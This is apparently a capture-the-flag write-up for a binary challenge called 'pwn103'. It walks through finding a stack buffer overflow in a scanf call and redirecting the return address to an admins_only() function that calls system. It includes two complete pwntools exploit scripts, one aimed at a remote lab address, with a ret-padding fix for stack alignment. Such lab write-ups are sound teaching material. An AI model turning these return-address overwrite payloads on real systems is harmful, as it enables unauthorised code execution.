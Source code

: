 # Challenge Name : pwn103

category : pwn

# File


Load file to Cutter . If you dont have cutter this is ref video on how to download and setup your cutter `https://shorturl.at/thoTb`

```
Cutter-v2.3.4-Linux-x86_64.AppImage pwn102-1644307392479.pwn102&
```

In Dashboard we can see the protection and the file format.

```
Canary : False
NX bit : True
PIC    : False
```

Taking a look at main there's scanf function which can be exploit. So lets try exploit by running the program

`give permission`
```
chmod +x pwn103-1644300337872.pwn103
```
`run program`
```
./pwn103-1644300337872.pwn103
```

Lets give a bunch of AAAAAAAAAAAAAAAAA

it just call the main function back when we give invalid input

![alt text](../images/image-3.png)

Okay lets check the case 1 till 5 the function they called whether there is vulnerabilities there

In case 3 , There is scanf function

Lets try to give a bunch of A again


```
🗣  General:

------[jopraveen]: Hello pwners 👋
------[jopraveen]: Hope you're doing well 😄
------[jopraveen]: You found the vuln, right? 🤔

------[pwner]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try harder!!! 💪
zsh: segmentation fault  ./pwn103-1644300337872.pwn103
```

We found the vulnerable function to be exploit

`But how to call system ???`

There is no call system in main or any other function in main. But if we take a look at functions

![](../images/image-3-2.png)

There's sys.admins_only . So lets  checkout this function

![alt text](../../image-3-3.png)

There's is call system

## Goal

Now our goal is to change the return address of general function which can be exploit to sys.admins_only() function. So instead of going back to main() it return to sys.admins_only().

![alt text](../images/image-4-3%201.png)


# Python Script

```
from pwn import *

context.binary = binary = ELF("./pwn103-1644300337872.pwn103")

admin_address = p64(binary.symbols.admins_only)
# payload = padding + rbp + admin_address
# buf = 0x-20

payload = b"A" * 0x20 + b"A" * 0x8 + admin_address

p = process()

p.sendline(b"3")

p.recv()
p.sendline(payload)
p.interactive()

```

## Remote

#p = process()
p = remote("10.10.100.218",9003)

By changing that code only

we get into an MOVAPS  issue which affect ubuntu 18 which is the our remote server

to fix this issue. 
we have to padding ROP chain with extra ret or skip a push intruction
To make life easy I just add banner address before the admin-address

```
from pwn import *

context.binary = binary = ELF("./pwn103-1644300337872.pwn103")

admin_address = p64(binary.symbols.admins_only)
banner_address = p64(binary.symbols.banner)
# payload = padding + rbp + admin_address
# buf = 0x-20

payload = b"A" * 0x20 + b"A" * 0x8 + banner_address + admin_address

#p = process()
p = remote("10.10.100.218",9003)

p.sendline(b"3")

p.recv()
p.sendline(payload)
p.interactive()

```

